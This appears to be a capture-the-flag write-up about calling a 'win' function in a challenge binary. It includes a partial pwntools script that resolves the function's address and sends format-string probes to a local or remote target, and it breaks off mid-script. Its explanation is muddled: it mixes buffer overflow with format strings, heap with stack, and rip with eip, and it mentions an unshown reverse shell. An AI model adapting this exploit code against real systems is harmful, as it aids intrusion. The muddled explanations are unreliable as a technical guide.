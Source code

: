 So the win function() need to be called before we get the flag. So, I
quickly set my objective finding the address of this function and call
it. But how ?

I then google it. How to call a function using the memory and
bufferoverflow. Why with buffer overflow, just because I know that I can
manipulate the entry that I send to the memory thanks to the weak
control on the user entry in the program, which was using scanf
function.

So I went in gef a binary exploitation tool to analyze the heap and
figure, out what I can do to specify the address of my win function(). I
will skip some details of the process here for a future article, but
here is a little resume.

<img src="media/image16.png" style="width:6.26772in;height:4.41667in" />

The rip is where my entry goes in the memory allocated to the running
program. So what I have to do is to send the address of the win function
in the rip to get it to be executed. I use readelf command to get the
memory addresses of the program. And I sent a lot of data in the x
variable to find the outcoming to see how I can run it. Finally, it was
a little tricky but I had to run a reverse shell sending my payload to
get the flag.

Here is the payload script:

<table>
<colgroup>
<col style="width: 100%" />
</colgroup>
<thead>
<tr class="header">
<th><strong>import</strong> pwn<br />
<strong>import</strong> argparse<br />
<br />
pwn.context.log_level = "CRITICAL"<br />
<br />
parser=argparse.ArgumentParser()<br />
parser.add_argument("destination", type=str, choices={"local",
"remote"})<br />
parser.add_argument("--target", "-t", type=str, default="",
required=<strong>False</strong>)<br />
parser.add_argument("--port", "-p", type=int, default=0,
required=<strong>False</strong>)<br />
args=parser.parse_args()<br />
<br />
elf=pwn.ELF("./format-string-1")<br />
<br />
<br />
new_eip=pwn.p32(elf.symbols["win"])<br />
<br />
<strong>for</strong> i <strong>in</strong> range(1, 256):<br />
payload =b"".join([<br />
b"%" + str(i).encode("utf-8") + b"$lx",<br />
]<br />
)<br />
<br />
<strong>if</strong> args.destination == "local":<br />
p=elf.process()<br />
<strong>elif</strong> args.destination == "remote":<br />
<strong>if</strong> <strong>not</strong> args.target <strong>or</strong>
<strong>not</strong> args.port:<br />
pwn.warning("Give target and connection port")<br />
exit()<br />
p = pwn.remote(args.target, args.port)<br />
